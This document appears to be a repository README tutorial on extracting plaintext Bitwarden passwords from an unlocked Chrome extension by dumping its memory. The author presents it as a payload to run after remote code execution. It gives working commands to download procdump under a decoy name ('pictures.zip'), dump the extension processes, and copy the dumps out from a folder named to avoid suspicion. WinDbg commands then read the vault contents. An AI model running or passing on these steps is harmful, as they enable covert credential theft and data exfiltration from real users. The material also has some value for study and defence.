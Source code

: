 # Retrieving and Analyzing Memory to View Bitwarden Passwords

## About This Tutorial
This tutorial will teach you how to get plaintext passwords from an unlocked Bitwarden Web Vault Chrome browser extension using memory analysis. The idea here is that this can be used as a payload for a RCE to get the  Bitwarden passwords of a computer in use. 

### What this is **NOT**:
 - This does NOT teach you how to retreive or recover a master password for a bitwarden vault
 - This is NOT an exploit for Bitwarden, Chrome, or the Kernel

### Prerequisites to this Tutorial:

 - Windbg is installed on the Host computer, how to install this software can be found [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/).
 - You have access to an elevated command prompt on the target computer, or can otherwise run commands with elevated priveleges
 - The target computer has an internet connection 

## Step 1: Get a Debugger to Copy Chrome Memory
For this tutorial I'm going to use procdump, it's quite compact and doesn't require an installer, so it is perfect for this scenario. On the target computer, run the command:

    curl https://download.sysinternals.com/files/Procdump.zip -o pictures.zip

Here we just downloaded procdump as a file called "pictures.zip", an unsuspecting user might not immediately recognize this as a new file.

Next we will want to extract the .zip, we can use tar for this:

    tar -xf pictures.zip

## Step 2: Create a Memory Dump of Chrome Extensions
We are going to use wmic to get the process IDs of the running chrome extension processes, then use procdump to dump the memory to some files. We can do this in one command:

    for /f %i IN ('wmic.exe process where "CommandLine Like '%--extension-process%' and name Like 'chrome%'" get ProcessID') do (procdump.exe -accepteula -ma %i)

The output will be some .dmp files that you should copy to your Host computer. You can use xcopy, robocopy, or whatever command you'd like to copy the file to a network location. I'm going to give an example where we ran procdump in an empty folder called "Nothing Suspicious" in the ProgramData directory:

    xcopy "C:\ProgramData\Nothing Suspicious" [Network Drive Path] /s /e


## Step 3: Analyze Memory Dump to Retrieve Plaintext Passwords

On the Host computer, open up Windbg and drag and drop the memory dump into the window. 

In the command line of windbg, enter the following command:

    s-a 0`00000000 L?5000000000000 [KEYWORD]

This searches for the ascii text that is correlated with the  from the first memory address, and the search will include all of the memory addresses in the dump, unless the file size exceeds ~5GB (but in that case you have a whole other issue). Sample keywords can be found in the examples for this repo.

Copy down one of the memory addresses outputted from the previous command. Then go to View > Memory to open up the memory viewer. In the address input box, paste the address you just copied. From here you can see your vault in plaintext.

From here you can use .writemem to write the memory to file for easy viewing, the syntax is as follows:

    .writemem c:\path\to\save\export.txt startingAddress endingAddress

You can find sample memory ranges for their corresponding dump file in the Info text document. I have a few examples here using different password managers, feel free to play around with the dumps. The usernames and passwords are fake.

